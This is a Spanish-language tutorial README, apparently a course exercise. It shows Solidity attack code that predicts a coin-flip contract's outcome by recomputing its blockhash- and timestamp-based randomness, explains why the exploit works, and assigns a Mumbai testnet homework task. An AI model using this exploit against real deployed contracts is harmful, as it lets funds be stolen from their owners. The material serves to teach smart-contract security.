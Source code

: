 ```solidity
    function attack() public {
        uint256 randomNumber = uint256(
            keccak256(
                abi.encodePacked(
                    address(this),
                    blockhash(block.number - 1),
                    block.timestamp
                )
            )
        );
        uint256 coinFlip = randomNumber / FACTOR;
        bool _guess = coinFlip == 1 ? true : false;

        coinFlipSC.flip{value: 1 ether}(_guess);
    }

    receive() external payable {}
}
```

1. Definimos la interface `IMoneda` que define el método `flip`. Con esta interface lograremos una comunicación intercontrato. Creamos una referencia al contrato `Moneda.sol` desde el constructor del contrato `HackerMoneda.sol` usando la interface `IMoneda`. Ahora podemos llamar al contrato `Moneda.sol` desde la variable `coinFlipSC`.
2. El método `attack()` ha replicado el cálculo de `randomNumber` haciendo uso de las mismas variables globales. Una sutil diferencia radica en `address(this)` en el método `attack()` vs `msg.sender` en el método `flip()`. Usamos `address(this)` porque en este caso será el contrato `HackerMoneda.sol` el que llamará a `Moneda.sol`. Es decir, el `msg.sender` en `flip()` tiene el mismo valor que `address(this)` en `attack()`.
3. Antes de terminar el método `attack()`, obtenemos el valor de `_guess`. Este valor es usado para llamar al método `flip()` de `Moneda.sol`. Dado que `_guess` fue calculado usando las mismas operaciones que en `flip()`, este valor siempre será el correcto.
4. Para recalcar. El método `attack()`  del contrato `HackerMoneda.sol` y `flip()` del contrato `Moneda.sol` son llamados en la misma transacción (e incluidos en el mismo bloque). Por lo tanto, ambos métodos comparten las mismas variables globales, lo cual permite el ataque.

## Tarea

Realizar esta tarea y guardar la información solicitada en este mismo README.md en tu local:

1. Vas a publicar el contrato `Moneda.sol` en la red Mumbai con las siguientes consideraciones:
   * El contrato `Moneda.sol` debe ser publicado con `2000 wei` o `2000` si lo harás desde Remix
   * En el método `flip`, cambia la validación en el `require` de `msg.value == 1 ether` a `msg.value == 1000`.
   * Hacia el final del método `flip`, cambia el premio de `...transfer(2 ether)` a `...transfer(2000)`.
2. Vas a publicar el contrato `HackerMoneda.sol` en la red Mumbai con las siguientes consideraciones:
   * En vez de enviar `1 ether`, solo envía `1000` al contrato `Moneda.sol` cuando se hace el llamado al método `flip()` desde el método `attack()`.
3. Ejecuta el método `attack()` del contrato `HackerMoneda.sol`. La operación debe ser exitosa y el contrato `HackerMoneda.sol` debería tener ahora un balance de `2000`
4. Copiar aquí el address del contrato  `Moneda.sol` en Mumbai:0xA820f7AaC33BB421298eca7349061C9914A841AA
5. Copiar aquí el address del contrato  `HackerMoneda.sol` de Mumbai:0x8B8D664670Ad71aB811432616e6276893D17113e
